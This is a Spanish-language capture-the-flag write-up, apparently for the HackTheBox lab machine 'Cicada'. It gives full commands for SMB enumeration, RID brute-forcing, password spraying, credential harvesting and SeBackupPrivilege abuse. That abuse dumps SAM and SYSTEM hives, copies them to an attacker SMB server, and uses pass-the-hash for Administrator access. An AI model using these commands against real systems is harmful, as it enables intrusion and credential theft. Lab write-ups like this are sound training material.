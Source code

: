 ![Cicada](https://github.com/user-attachments/assets/eb28d3af-c5cc-4206-9579-0979abc20137)


Comenzamos escaneando los puertos abiertos de la máquina objetivo.

``sudo nmap 10.10.11.35 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![Pasted image 20250318103259](https://github.com/user-attachments/assets/ff9283af-c20a-43cc-8a8c-cecbde27b344)

Dado este output, podemos empezar a pensar que estamos ante un DC. No obstante, vamos a ver con exactitud qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.11.35 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,57500 -oN target -Pn``

![Pasted image 20250318103431](https://github.com/user-attachments/assets/d502e243-12a3-4a04-8077-1b59a06516f5)

De este output podemos extraer cositas, como que el dominio es cicada.htb y el nombre de la máquina es cicada-dc. 

Vamos a recolectar un poco más de información sobre la máquina.

``netexec smb 10.10.1.35``

![Pasted image 20250318104501](https://github.com/user-attachments/assets/a8e0a070-56a2-4df1-9b1a-367075bf0fb2)

Confirmamos la información que teníamos desde el output de nmap y que es un WS2022.

Podemos añadir esta información a nuestro /etc/hosts.

![Pasted image 20250318104605](https://github.com/user-attachments/assets/6c3b9a90-8c4d-4826-a323-49313230092b)

Probamos a enumerar los recursos disponibles por SMB para el usuario guest:

``netexec smb 10.10.11.35 -u 'guest' -p '' --shares``

![Pasted image 20250318104731](https://github.com/user-attachments/assets/03c031e0-65c8-4ce5-858e-e61d44754e0d)

Aparecen cosas interesantes y que no están por default, como el permiso de lectura para HR (HumanResources?).

Vamos a conectarnos por SMB para echarle un vistazo más a fondo.

``smbclient //10.10.11.35/HR -U 'guest'``

![Pasted image 20250318105030](https://github.com/user-attachments/assets/42cbe277-13f8-4e5f-ae39-6ce81f698f36)

Vemos que existe un archivo llamado "Notice from HR.txt". Nos traemos el archivo a la máquina atacante para analizar su contenido.

![Pasted image 20250318105403](https://github.com/user-attachments/assets/f888e9da-e7ab-4900-81e4-528be9ee49fb)

Podemos visualizar cositas interesantes. Parece un mensaje default para nuevas contrataciones en la compañía Cicada. Lo primero (y más importante) que menciona es la importancia de cambiar la contraseña default 'Cicada$M6Corpb*@Lp#nZp!8'. Sin embargo, no tenemos el usuario al que está haciendo referencia.

Dado que con el usuario guest podemos enumerar los archivos compartidos, vamos a probar a utilizar --rid-brute para enumerar usuarios.

``netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute``
![Pasted image 20250318112623](https://github.com/user-attachments/assets/9b31db8e-a51a-48bb-81ce-186618c0f9eb)

Bien. Nos saca output. Lo que vamos a hacer es redirigirlo todo a un archivo para hacer un tratamiento de los datos para quedarnos sólo con los nombres de usuario y generar un diccionario de usuarios.

``netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute > smbusers.txt``

Una vez tenemos todo el output en un archivo, hacemos el tratamiento de datos.

``cat smbusers.txt | grep 'SidTypeUser'| cut -f2 -d '\' | cut -f1 -d '(' | cut -f1 -d ' ' > users.txt``

![Pasted image 20250318114113](https://github.com/user-attachments/assets/57633c2c-b1e5-448a-9a7e-041e965228e8)

Una vez tenemos el diccionario de usuarios, vamos a identificar si todos son usuarios válidos (que deberían):

``kerbrute userenum --dc 10.10.11.35 -d cicada.htb users.txt``

![Pasted image 20250318114214](https://github.com/user-attachments/assets/a0f40542-614f-4b37-b74e-3602321686c4)

Genial. Los usuarios que tenemos son usuarios reales.

Ahora vamos a hacer uso de la técnica password spraying con la contraseña que hemos obtenido en el archivo compartido por SMB con los usuarios que tenemos:

``netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success``

![Pasted image 20250318122124](https://github.com/user-attachments/assets/7a771c02-c50c-4a13-9feb-2b89c4e74fc6)

Ojo, tenemos un [+] para el usuario michael.wrightson, por lo que tenemos credenciales válidas.

michael.wrightson : Cicada$M6Corpb*@Lp#nZp!8 

Sin embargo, si lanzamos netexec para winrm vemos que no tenemos un [+], por lo que este usuario no forma parte del grupo Remote Management Users y no podemos conectarnos usando evil-winrm. Seguimos enumerando.

Si nos conectamos por RPC para enumerar un poquito más:

``rpcclient -U 'michael.wrightson%Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35``

-> querydispinfo

![Pasted image 20250318130434](https://github.com/user-attachments/assets/44c9b0cc-02ef-4f6b-9c69-26e5cdded22b)

Muy interesante. La descripción del usuario david.orelious es:

``Just in case I forget my password is aRt$Lp#7t*VQ!3``

Tenemos una posible contraseña del usuario david.orelious. Vamos a validar esta credencial con netexec:

``netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3'``

![Pasted image 20250318130621](https://github.com/user-attachments/assets/d631704f-da47-42b1-b7a0-f5db56ac0c9b)


Son credenciales válidas, pero tampoco forma parte del grupo Remote Management Users (igual que antes, netexec para winrm no reporta pwn3d), por lo que seguimos sin poder conectarnos a la máquina víctima.

Sin embargo, si vemos lo que se está compartiendo en SMB para este usuario:

``netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares``

![Pasted image 20250318130854](https://github.com/user-attachments/assets/edc69a88-6ec4-415d-8118-1da249755608)

El directorio DEV que se está compartiendo suena bastante interesante y tenemos permisos de lectura. Vamos a indagar.

``smbclient //10.10.11.35/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'``

![Pasted image 20250318131033](https://github.com/user-attachments/assets/90a8d5bc-4bdf-463a-bc8b-97a7ab5df06c)

Nos traemos a la máquina víctima ese Backup_script.ps1 y le echamos un vistazo:

![Pasted image 20250318132822](https://github.com/user-attachments/assets/21fc8717-35b1-422c-a831-190a8b499514)


Se encuentran claramente unas credenciales:
emily.oscars : Q!3@Lp#M6b*7t*Vt

Vamos a validarlas con netexec.

![Pasted image 20250318132949](https://github.com/user-attachments/assets/0167e75e-bd81-437a-941f-1d76e0539599)


Son credenciales válidas. Y si las probamos para winRM:

![Pasted image 20250318133030](https://github.com/user-attachments/assets/188d617a-f6fd-43aa-b46a-bc7f7b8c178f)

Bingo. Pwn3d!
Por fin un usuario que forma parte del grupo Remote Management Users y que nos permite conectarnos.

Nos conectamos con evilwin-rm:

``evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'``

![Pasted image 20250318133343](https://github.com/user-attachments/assets/063bfbb7-faa3-4440-9ce3-a42254495983)

Estamos dentro de la máquina víctima como el usuario emily.oscars.

Dentro de C:\Users\emily.oscars\Desktop encontramos la flag de usuario:

![Pasted image 20250318133546](https://github.com/user-attachments/assets/0883a5d5-96d9-4723-8001-c34a5f4fe676)



# PRIVESC

``whoami /priv``

![Pasted image 20250318133801](https://github.com/user-attachments/assets/c62fbc60-9a56-405d-b014-03d952af42da)

El usuario tiene el privilegio SeBackupPrivilege. Muy buenas noticias.

Nos creamos una carpeta temp en C:\

![Pasted image 20250318133829](https://github.com/user-attachments/assets/3b5fa189-4b81-4618-b2e0-df1103940481)

Para explotar este privilegio vamos a hacer una copia de SAM y SYSTEM que nos permitirá tener los hashes LM:NTLM de los demás usuarios.

``reg save hklm\sam c:\temp\sam``

``reg save hklm\system c:\temp\system``

![Pasted image 20250318133929](https://github.com/user-attachments/assets/cd2368d8-55e8-46bc-a160-20bcaf09e5c6)


Vamos a compartir ambos recursos con la máquina atacante, para ello:

- Abrimos smbserver en máquina atacante:
  
``impacket-smbserver -smb2support test .``

- Desde máquina víctima realizamos la copia de ambos recursos (sam y system) en el servidor SMB de la máquina atacante:
  
``copy sam \\10.10.14.16\test\sam``

``copy system \\10.10.14.16\test\system``

![Pasted image 20250318134115](https://github.com/user-attachments/assets/1adf0f5e-6114-40ec-ba06-a347e0f88740)


Una vez lo tenemos en máquina víctima, combinamos ambos archivos a través del uso de impacket-secretsdump:

``impacket-secretsdump -sam sam -system system LOCAL > sam.hashes``

Si observamos el contenido del archivo:

![Pasted image 20250318134748](https://github.com/user-attachments/assets/b1e0d5f8-0daf-4e02-8d82-5e28ddb67e6c)


Estupendo. Tenemos un posible hash NTLM del usuario Administrator. Vamos a validarlo vía netexec realizando pass the hash:

``netexec smb 10.10.11.35 -u Administrator -H ':2b87e7c93a3e8a0ea4a581937016f341'``

![Pasted image 20250318134823](https://github.com/user-attachments/assets/b7a48503-aae7-45eb-9106-08a53c40bbed)

Tenemos [+] y Pwn3d!, por lo que, no sólo son credenciales válidas, sino que podemos hacer uso directo de psexec para conectarnos a la máquina víctima:

``impacket-psexec administrator@10.10.11.35 -hashes ':2b87e7c93a3e8a0ea4a581937016f341'``

![Pasted image 20250318135407](https://github.com/user-attachments/assets/919b50ed-4635-45f5-89d3-493b9349da14)

Podemos recogemr la flag de Administrador en C:\Users\Administrator\Desktop:

![Pasted image 20250318135514](https://github.com/user-attachments/assets/ea0cfadd-332e-46f8-80ec-ee918deaece3)
